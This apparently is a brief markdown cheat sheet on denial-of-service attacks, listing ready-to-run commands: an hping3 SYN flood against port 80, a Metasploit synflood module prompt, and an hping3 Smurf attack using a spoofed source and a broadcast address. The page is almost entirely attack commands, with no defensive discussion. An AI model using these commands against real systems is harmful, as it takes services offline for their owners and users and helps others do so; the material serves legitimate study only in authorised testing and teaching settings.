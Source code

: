 # Denial of Service

## SYN Flood

```bash
hping3 -S --flood -p 80 <target>
```
```bash
msf5 auxiliary(dos/tcp/synflood) >
```

## Smurf attack

> Sending a broadcast of ICMP echo packets from a spoofed source to flood it with ICMP replies

```bash
hping3 --icmp --spoof <target> <broadcast_address>
```